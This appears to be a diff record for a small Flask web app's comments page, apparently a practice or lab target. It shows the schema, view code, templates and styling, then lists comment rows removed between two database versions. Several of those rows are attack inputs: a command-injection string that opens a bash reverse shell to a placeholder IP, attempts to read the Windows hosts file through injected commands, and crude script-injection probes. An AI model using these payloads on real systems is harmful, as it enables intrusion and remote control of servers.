
The page /comments on the database as committed earlier.

The same page on the database as committed later.
### tables this page shows
CREATE TABLE comments (
    `id` INTEGER PRIMARY KEY AUTOINCREMENT,
    `username` TEXT NOT NULL,
	`text` TEXT NOT NULL
);

### app.py (the view, shortened to what this page needs)
@app.route('/comments', methods=['GET', 'POST'])
def comments():
    comments_query = text("SELECT username, text FROM comments")
    comments = db.session.execute(comments_query).fetchall()
    return render_template('comments.html', comments=comments)

### templates/comments.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
    <h2>Leave a comment for our great leader!</h2>
    <form method="POST" action="{{ url_for('comments') }}" style="max-width: 600px; margin: 20px auto; padding: 20px; border: 1px solid #ccc; border-radius: 10px; background-color: #f9f9f9;">
        <div style="margin-bottom: 15px;">
            <label for="username" style="display: block; font-weight: bold; margin-bottom: 5px;">Name:</label>
            <input type="text" id="username" name="username" required style="width: 100%; padding: 10px; border: 1px solid #ccc; border-radius: 5px;">
        </div>
        <div style="margin-bottom: 15px;">
            <label for="comment" style="display: block; font-weight: bold; margin-bottom: 5px;">Comment:</label>
            <textarea id="comment" name="comment" required style="width: 100%; padding: 10px; border: 1px solid #ccc; border-radius: 5px; height: 100px;"></textarea>
        </div>
        <div style="text-align: center;">
            <button type="submit" style="padding: 10px 20px; background-color: #007bff; color: white; border: none; border-radius: 5px; cursor: pointer;">Submit</button>
        </div>
    </form>
    <h3>All Comments</h3>
    <ul>
        {% for comment in comments %}
            <li><strong>{{ comment.username }}</strong>: {{ comment.text }}</li>
        {% endfor %}
    </ul>
{% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="{{ url_for('static', filename='style.css') }}">
</head>
<body>
    <div id="container">
        <header>
            <div id="mainpic">
            </div>
        </header>
        <nav id="menu">
            <ul>
                <li><a href="{{ url_for('index') }}">Home</a></li>
                <li><a href="{{ url_for('quotes') }}">Quotes</a></li>
				<li><a href="{{ url_for('search') }}">Search</a></li>
				<li><a href="{{ url_for('comments') }}">Comments</a></li>
				<li>
					{% if 'user_id' in session %}
						<a href="{{ url_for('logout') }}">Logout</a>
					{% else %}
						<a href="{{ url_for('login') }}">Login</a>
					{% endif %}
				</li>
				<li><a href="{{ url_for('sitemap') }}">Site Map</a></li>
            </ul>
        </nav>
        <main id="content">
            {% block content %}{% endblock %}
        </main>
        <footer id="footer">
            <h3><a href="#">Copyright &copy; Donald. All Rights Reserved.</a></h3>
        </footer>
    </div>
</body>
</html>

### static/style.css (style rules this page uses)
body { margin: 0; padding: 0; text-align: left; font: 12px Arial, Helvetica, sans-serif; font-size: 13px; color: #061C37; background-image:url(images/background.jpg); background-repeat:no-repeat; }
* { margin: 0 auto 0 auto; text-align:left; }
#container { display: block; height:auto; position: relative; width: 940px; }
#mainpic { background-image:url(images/trump_flicker_face_yess.jpg); background-repeat:no-repeat; width:900px; height:402px; }
#menu { background-image:url(images/menu.png); background-repeat:no-repeat; width:940px; height:69px; float:left; clear:both; }
#content { width:920px; height:auto; background-color:#FFF; padding-left:10px; padding-right:10px; padding-bottom:5px; }
#content h2 { text-align:center; }
#footer h3 a,#footer h3 a:visited { text-align:center; font-size:12px; text-decoration:none; color:#7198E1; }
#menu ul { list-style: none; padding: 0px; margin-left:auto; width:900px; }
#menu li { list-style: none; padding: 0px; display: inline; }
#menu a { float: left; width: 120px; height: 40px; display: block; text-align: center; text-decoration: none; color: #ffffff; font-weight: bold; padding-top: 10px; font-size: 15px; }
html, body { text-align: center; }

Rows that differ between the two databases and show on the page:
removed comments: username "JD Vance", text "We love you Dony!"
removed comments: username "JD Vance", text "We love you Dony!"
removed comments: username "JD Vance", text "\" && bash -c 'bash -i >& /dev/tcp/<your-servers-IP>/9000 0>&1' #"
removed comments: username "VD Jance", text "\">C:/etc"
removed comments: username "JD Vance", text "\">C:\\windows\\system32\\drivers\\etc\\"
removed comments: username "VD Jance", text "\"C:\\windows\\system32\\drivers\\etc\\\""
removed comments: username "VD Jance", text "\">& type C:\\Windows\\System32\\drivers\\etc\\hosts"
removed comments: username "JD", text "\"& type C:\\Windows\\System32\\drivers\\etc\\hosts"
removed comments: username "JD Vance", text "\">& type C:\\Windows\\System32\\drivers\\etc\\hosts<\""
removed comments: username "VD Jance", text "<script>import os cwd = os.getcwd() print(\"Current working directory:\", cwd)</script>"
removed comments: username "JD Vance", text "import os cwd = os.getcwd() alert(\"Current working directory:\", cwd)"
removed comments: username "JD Vance", text "<script>import os cwd = os.getcwd() print(\"Current working directory:\", cwd)<script>"
removed comments: username "VD Jance", text "<script> import os cwd = os.getcwd() alert(print(\"Current working directory:\", cwd)); <script>"
removed comments: username "JD Vance", text "<image>src=x alert(xss)</image>"
removed comments: username "JD Vance", text "yes"
